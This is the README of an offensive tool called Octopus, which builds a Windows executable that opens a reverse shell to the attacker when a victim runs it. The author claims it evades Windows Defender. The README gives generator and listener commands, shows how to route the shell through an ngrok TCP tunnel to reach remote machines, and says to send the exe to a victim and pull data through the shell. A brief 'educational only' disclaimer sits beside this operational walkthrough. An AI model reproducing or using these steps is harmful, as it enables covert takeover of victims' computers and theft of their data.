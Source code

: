 # Octopus

Octopus is a tool which can generate an exe which can return a
reverse shell to the attacker when the victim runs the exe file.
The exe generated by this tool can currently (June 2022) bypass
windows defender and some other antiviruses. I hope that the
antiviruses will be able to detect the octopus exe soon because
this is a threat to privacy.

# Important

This tool is strictly made for educational purposes only and
I have no intention to harm anyone or steal any data so please
test this only on the machines you own. This tool is made so that
people can get the basic idea how reverse shell works

#### I will not be responsible for any of your acts.

# Installation

Install octopus

```bash
git clone https://github.com/Rajas2323/octopus
```

The octopus tool (listener.py + octopusgenerator.py) will only work on windows currently
because nuikta which is an exe generator tool for python was
giving errors when I tested it on linux. And ngrok port forwarding will also not work
on linux, the reason is still unknown to me but I will try to find a solution for this

# Usage/Examples

## Localhost Usage Example

If you want to test octopus locally, follow the given steps

in the octopus directory, there are two python files

- listener.py
- octopusgenerator.py

we will generate the the exe by running the command

```bash
python octopusgenerator.py -H 127.0.0.1 -p 4444 -o exename.exe
```

now we will listen for connections by running

```bash
python listener.py
```

now the listener script will ask you to enter port on which
you want to listen, in this example the port is 4444, so we will have
to enter there 4444. Now when you will double click or open the
exe, it will send reverse shell on the listener.

## Remote Usage Example

#### Now you will learn how to use this tool on remote devices.

First of all, to listen to the connections from remote computers
We will need port forwarding, but setting a static ip address and
setting up port forwarding is really a headache. So we will use
a tool which will make our work very simple.
The tool is Ngrok

Now I won't tell you how to download and setup ngrok. Moving
directly to the usage, we will execute command,

```bash
.\ngrok.exe tcp 4444
```

Now ngrok tool will show you this on terminal

```bash
Session Status       Online
Account              yourregistered@gmail.com (Plan: Free)
Version              3.0.2
Region               Your Country
Latency              42.5611ms
Web Interface        http://127.0.0.1:4040
Forwarding           tcp://0.tcp.in.ngrok.io:19280 -> localhost:4444

```

Now ngrok has created a tcp tunnel which will forward the
connections to 127.0.0.1:4444 on which we will run our listener

The important information shown is Forwarding,
ngrok is forwarding connections which connect to
0.tcp.in.ngrok.io on port 19280 in this example to 127.0.0.1:4444
Now you don't have to close ngrok at all

So while generating octopus exe, will set host to our ngrok tcp link
which is 0.tcp.in.ngrok.io and we will set port to our ngrok port
which is 19280 in this example..

So the command to generate exe will be

```bash
python octopusgenerator.py -H 0.tcp.in.ngrok.io -p 19280 -o exename.exe
```

now after exe is created, we will simply run our listener by running command

```bash
python listener.py
```

now the python script will ask to input our port, we will enter
the port which we entered in the ngrok command which is 4444
in this case.

Now we will send the exe to our victim machine and when the exe is
executed, we will get reverse shell and will be able enter cmd commands
to get data from that machine. If you destroy the ngrok instance or
the user will close the exe via task manager, we will loose the
reverse shell as the connection will be lost.
